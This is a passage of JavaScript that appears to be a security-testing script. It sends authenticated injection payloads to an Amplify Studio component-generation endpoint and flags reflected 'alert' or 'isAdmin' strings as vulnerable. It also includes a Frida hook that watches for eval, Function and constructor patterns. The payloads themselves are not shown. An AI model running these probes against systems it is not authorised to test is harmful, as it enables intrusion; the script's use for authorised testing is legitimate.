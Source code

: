 ```javascript
                'Authorization': `Bearer ${authToken}`
            },
            body: JSON.stringify({
                name: `TestComponent${index}`,
                ...payload
            })
        })
        .then(response => response.json())
        .then(data => {
            // Check if payload was reflected
            if (JSON.stringify(data).includes('alert') || 
                JSON.stringify(data).includes('isAdmin')) {
                console.log(`[!] VULNERABLE: Payload ${index + 1} was accepted!`);
                console.log("[!] Component generation may execute arbitrary code");
            } else {
                console.log(`[+] Payload ${index + 1} blocked`);
            }
        })
        .catch(err => {
            console.log(`[-] Error testing payload ${index + 1}: ${err}`);
        });
    });
}

// Frida script to monitor code generation
const fridaMonitor = `
Java.perform(function() {
    var ComponentGenerator = Java.use('com.amplify.studio.ComponentGenerator');
    
    ComponentGenerator.generateComponent.implementation = function(spec) {
        console.log("[*] Component generation called with:");
        console.log(JSON.stringify(spec));
        
        // Check for dangerous patterns
        var specStr = JSON.stringify(spec);
        if (specStr.includes('eval') || 
            specStr.includes('Function') || 
            specStr.includes('constructor')) {
            console.log("[!] DANGEROUS: Potential code injection detected!");
        }
        
        return this.generateComponent(spec);
    };
});
`;

// Export for use
module.exports = {
    testAmplifyStudioInjection,
    payloads,
    fridaMonitor
};
```
